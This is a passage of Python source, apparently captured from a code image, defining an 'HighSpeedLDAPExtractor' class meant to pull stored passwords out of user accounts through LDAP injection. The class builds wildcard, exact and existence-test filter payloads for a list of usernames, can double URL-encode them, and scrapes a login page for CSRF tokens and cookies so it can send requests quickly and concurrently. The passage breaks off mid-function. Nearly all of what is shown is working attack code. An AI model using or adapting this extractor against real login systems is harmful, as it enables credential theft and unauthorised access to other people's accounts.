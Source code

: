 ```python
    "mark.s", "natalie.a", "nate.h", "patrick.s", "ramona.l", 
    "ray.n", "rene.s", "stephanie.w", "stephen.m", "tanya.r", 
    "tish.c", "vincent.g", "will.s", "zeke.s"
]

class HighSpeedLDAPExtractor:
    def __init__(self):
        self.extracted_passwords = {}
        self.request_count = 0
        self.start_time = time.time()
        self.global_semaphore = asyncio.Semaphore(MAX_SEMAPHORE)
        self.charset = OPTIMIZED_CHARSET
        
    def escape_ldap_filter_value(self, value):
        """Escape LDAP special characters"""
        escape_map = {
            '\\': r'\5c',
            '*': r'\2a',
            '(': r'\28',
            ')': r'\29',
            '\x00': r'\00',
            '/': r'\2f',
        }
        
        result = value
        for char, escape_seq in escape_map.items():
            result = result.replace(char, escape_seq)
        return result
    
    def prepare_injection(self, username, desc_prefix, mode="wildcard"):
        """Prepare LDAP injection payload"""
        escaped = self.escape_ldap_filter_value(desc_prefix)
        
        if mode == "wildcard" and escaped:
            payload = f"{username}*)(description={escaped}*"
        elif mode == "exact" and escaped:
            payload = f"{username}*)(description={escaped}"
        elif mode == "exists":
            payload = f"{username}*)(description=*"
        else:
            payload = f"{username}*)(description={escaped}*"
        
        if DOUBLE_URL_ENCODE:
            payload = ''.join(f'%{byte:02X}' for byte in payload.encode('utf-8'))
        
        return payload
    
    async def get_token_and_cookies(self, client):
        """Fetch CSRF token"""
        try:
            response = await client.get(BASE + LOGIN_PAGE)
            token = None
            
            if "__RequestVerificationToken" in response.cookies:
                token = response.cookies["__RequestVerificationToken"]
            
            match = TOKEN_RE.search(response.text)
            if match:
                token = match.group(1)
            
            return token, dict(response.cookies)
        except Exception as e:
            if DEBUG:
```
